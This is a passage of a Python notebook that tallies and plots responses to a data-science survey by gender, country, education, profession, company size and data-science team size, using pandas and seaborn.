    import seaborn as sns
    fig, ax = plt.subplots(1, 1, figsize=(20,20))

    sns.set(style="whitegrid")
    tips = sns.load_dataset("tips")
    ax = sns.barplot(x="Q6", y="Frequency", hue="Q11", data=drr)
    ax.legend(fontsize=20)
    ax.set_title('Distribution of Money invested in ML and Cloud Products by size of company in {}'.format(i),fontsize=20)
    ax.set(xlabel='Size of company', ylabel='Distribution of amount invested by companies of participants participating in the survey')

Output hidden; open in https://colab.research.google.com to view.

In [0]:
#Analysis within each gender
##########GENDER DISTRIBUTION ATTEMPTING SURVEY
gender = req.groupby(['Q2'],as_index=False).count().reset_index().loc[:,'Q2':'Time from Start to Finish (seconds)']

In [0]:
gender.sort_values('Time from Start to Finish (seconds)', inplace=True)

[Text(0, 0.5, 'Number of people participating in the survey'),
 Text(0.5, 0, 'Gender Participating In The Survey')]



In [0]:
import seaborn as sns
sns.set(style="whitegrid")
fig, ax = plt.subplots(1, 1, figsize=(15,15))
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q2", y="Time from Start to Finish (seconds)", data=gender)
ax.set(xlabel='Gender Participating In The Survey', ylabel='Number of people participating in the survey')

In [0]:
#####DISTRIBUTION BY COUNTRY 
country = req.groupby(['Q3'],as_index=False).count().reset_index().loc[:,'Q3':'Time from Start to Finish (seconds)']

In [0]:
country.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True) 



In [0]:
# Prepare Data
country.sort_values('Frequency', inplace=True)
#country.reset_index(inplace=True)

# Draw plot
import matplotlib.patches as patches

fig, ax = plt.subplots(figsize=(16,10), facecolor='white', dpi= 80)
ax.vlines(x=country.index, ymin=0, ymax=country.Frequency, color='firebrick', alpha=0.7, linewidth=20)

# Annotate Text
for i, Frequency in enumerate(country.Frequency):
    ax.text(i, Frequency+0.5, round(Frequency, 1), horizontalalignment='center')


# Title, Label, Ticks and Ylim
ax.set_title('Bar Chart for Proportion of Survey Attempts by Country distribution', fontdict={'size':22})
ax.set(ylabel='Number of people participated in survey', ylim=(0, 5000))
ax.set(xlabel='Country participating in Survey')
plt.xticks(country.index, country.Q3.str.upper(), rotation=60, horizontalalignment='right', fontsize=12)

# Add patches to color the X axis labels
p1 = patches.Rectangle((.57, -0.005), width=.33, height=.13, alpha=.1, facecolor='green', transform=fig.transFigure)
p2 = patches.Rectangle((.124, -0.005), width=.446, height=.13, alpha=.1, facecolor='red', transform=fig.transFigure)
fig.add_artist(p1)
fig.add_artist(p2)
plt.show()

In [0]:
#####DISTRIBUTION BY EDUCATION -----> missing values present
education = req.groupby(['Q4'],as_index=False).count().reset_index().loc[:,'Q4':'Time from Start to Finish (seconds)']

In [0]:
education.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True) 

In [0]:
education.sort_values('Frequency', inplace=True)

In [0]:
education = education[education['Q4'] != 0]

In [0]:
education = education[education['Q4'] != "I prefer not to answer"]

[Text(0, 0.5, 'Number of people participating in the survey'),
 Text(0.5, 0, 'Highest Level of Education Attained By Person Participating In The Survey')]



In [0]:
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(30,30))

plt.xticks(education.index, education.Q4.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q4", y="Frequency", data=education)
ax.set_title('Proportion of different levels of education attained by the participants',fontsize=20)
ax.set(xlabel='Highest Level of Education Attained By Person Participating In The Survey', ylabel='Number of people participating in the survey')

In [0]:
#####DISTRIBUTION BY profession of participant
profession = req.groupby(['Q5'],as_index=False).count().reset_index().loc[:,'Q5':'Time from Start to Finish (seconds)']

In [0]:
profession.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True) 

In [0]:
profession.sort_values('Frequency', inplace=True)

In [0]:
profession.reset_index(drop=True)

,Q5,Frequency
0,DBA/Database Engineer,156
1,Statistician,322
2,Data Engineer,624
3,Product/Project Manager,723
4,Business Analyst,778
5,Not employed,942
6,Research Scientist,1470
7,Data Analyst,1598
8,Other,1690
9,Software Engineer,2704


In [0]:
profession = profession[profession['Q5'] != 0]

[Text(0, 0.5, 'Number of people participating in the survey'),
 Text(0.5, 0, 'Highest Level of Education Attained By Person Participating In The Survey')]



In [0]:
####SIGNIFICANT NUMBER OF OTHER RESPONSE ---> NEED MORE ANALYSIS INTO OTHER RESPONSE OF Q5
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(30,30))

plt.xticks(profession.index, profession.Q5.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q5", y="Frequency", data=profession)
ax.set_title('Proportion of different levels of education attained by the participants',fontsize=20)
ax.set(xlabel='Highest Level of Education Attained By Person Participating In The Survey', ylabel='Number of people participating in the survey')

In [0]:
#####DISTRIBUTION BY size of establishment
size = req.groupby(['Q6'],as_index=False).count().reset_index().loc[:,'Q6':'Time from Start to Finish (seconds)']

In [0]:
size.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True) 

In [0]:
size.sort_values('Frequency', inplace=True)

In [0]:
size.reset_index(drop=True)

,Q6,Frequency
0,250-999 employees,1847
1,50-249 employees,2329
2,"1000-9,999 employees",2640
3,"> 10,000 employees",3160
4,0-49 employees,4025


In [0]:
size = size[size['Q6'] != 0]

[Text(0, 0.5, 'Number of people participating in the survey'),
 Text(0.5, 0, 'Size of company')]



In [0]:
####INTERESTING OBSERVATION: survey undertaken by a large population working in a smaller scale industry
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(30,30))

plt.xticks(size.index, size.Q6.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q6", y="Frequency", data=size)
ax.set_title('Proportion of sizes of companies the participants are employed in',fontsize=20)
ax.set(xlabel='Size of company', ylabel='Number of people participating in the survey')

In [0]:
####taking a deeper dive into the small scale establishment employees
#size_by_profession = 
size_by_profession = req.groupby(['Q6','Q5'],as_index=False).count().reset_index().loc[:,'Q6':'Time from Start to Finish (seconds)']

In [0]:
size_by_profession = size_by_profession[size_by_profession['Q6'] != 0]

In [0]:
size_by_profession = size_by_profession[size_by_profession['Q5'] != 0]

In [0]:
####
s1 = size_by_profession[size_by_profession['Q6'] == '0-49 employees']
s2 = size_by_profession[size_by_profession['Q6'] == '1000-9,999 employees']
s3 = size_by_profession[size_by_profession['Q6'] == '250-999 employees']
s4 = size_by_profession[size_by_profession['Q6'] == '50-249 employees']
s5 = size_by_profession[size_by_profession['Q6'] == '> 10,000 employees']


In [0]:
# s1.sort_values('Frequency', inplace=True)
# s2.sort_values('Frequency', inplace=True)
# s3.sort_values('Frequency', inplace=True)
# s4.sort_values('Frequency', inplace=True)
# s5.sort_values('Frequency', inplace=True)

In [0]:
size_by_profession = pd.concat([s1,s2,s3,s4,s5])

In [0]:
size_by_profession.reset_index(drop=True)

,Q6,Q5,Time from Start to Finish (seconds)
0,0-49 employees,Business Analyst,187
1,0-49 employees,DBA/Database Engineer,32
2,0-49 employees,Data Analyst,425
3,0-49 employees,Data Engineer,157
4,0-49 employees,Data Scientist,1231
5,0-49 employees,Other,452
6,0-49 employees,Product/Project Manager,188
7,0-49 employees,Research Scientist,438
8,0-49 employees,Software Engineer,820
9,0-49 employees,Statistician,95


In [0]:
size_by_profession.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True) 

[Text(0, 0.5, 'Number of people participating in the survey'),
 Text(0.5, 0, 'Size of company')]



In [0]:
####
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(30,30))

plt.xticks(size_by_profession.index, size_by_profession.Q6.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q6", y="Frequency", hue="Q5", data=size_by_profession)
ax.legend(fontsize=20)
ax.set_title('Distribution of Profession of the participant taking the survey by company size',fontsize=20)
ax.set(xlabel='Size of company', ylabel='Number of people participating in the survey')

[Text(0, 0.5, 'Number of people participating in the survey'),
 Text(0.5, 0, 'Size of company')]



In [0]:
####
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(30,30))

plt.xticks(size_by_profession.index, size_by_profession.Q6.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q6", y="Frequency", hue="Q5", data=size_by_profession)
ax.legend(fontsize=20)
ax.set_title('Distribution of Profession of the participant taking the survey by company size',fontsize=20)
ax.set(xlabel='Size of company', ylabel='Number of people participating in the survey')

In [0]:
req['Q10']

1            5,000-7,499
2                    NaN
3        250,000-299,999
4            4,000-4,999
5          60,000-69,999
              ...       
19712                NaN
19713             $0-999
19714                NaN
19715        1,000-1,999
19716      60,000-69,999
Name: Q10, Length: 19716, dtype: object

In [0]:
num_inv_in_datascience = req.groupby(['Q7'],as_index=False).count().reset_index().loc[:,'Q7':'Time from Start to Finish (seconds)']

In [0]:
def func(line):
    l = line
    if line == '14-Oct':
        l = '10-14'
    elif line == '2-Jan':
        l = '1-2'
    elif line == '4-Mar':
        l = '3-4'
    elif line == '9-May':
        l = '5-9'
    return l
num_inv_in_datascience['Q7']=num_inv_in_datascience['Q7'].apply(func)

In [0]:
num_inv_in_datascience.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True) 

In [0]:
num_inv_in_datascience.sort_values('Frequency',inplace = True)

In [0]:
#############LARGE NUMBER OF MISSING VALUES...
num_inv_in_datascience = num_inv_in_datascience[num_inv_in_datascience['Q7']!=0]

In [0]:
num_inv_in_datascience

,Q7,Frequency
3,15-19,427
2,10-14,967
6,5-9,1847
0,0,1879
5,3-4,2319
1,1-2,3005
4,20+,3178


[Text(0, 0.5, 'Number of people participating in the survey'),
 Text(0.5, 0, 'Number of people involved in data-science ')]



In [0]:
####INTERESTING OBSERVATION: survey undertaken by a large population working in a smaller scale industry
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(30,30))

plt.xticks(num_inv_in_datascience.index, num_inv_in_datascience.Q7.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q7", y="Frequency", data=num_inv_in_datascience)
ax.set_title('Proportion of number of individuals involved in Datascience in the company the participant is employed in',fontsize=20)
ax.set(xlabel='Number of people involved in data-science ', ylabel='Number of people participating in the survey')

In [0]:
#GROUP BY SIZE OF COMPANY AND NUMBER OF DATA SCIENCE PEOPLE INVOLVED ...ADD A COUNTRY COMPARISON TOO
req['Q7']

1          20+
2          NaN
3          20+
4            0
5          3-4
         ...  
19712      NaN
19713      3-4
19714      NaN
19715    15-19
19716      20+
Name: Q7, Length: 19716, dtype: object

In [0]:
#size_by_profession 
size_by_ds = req.groupby(['Q6','Q7'],as_index=False).count().reset_index().loc[:,'Q6':'Time from Start to Finish (seconds)']

In [0]:
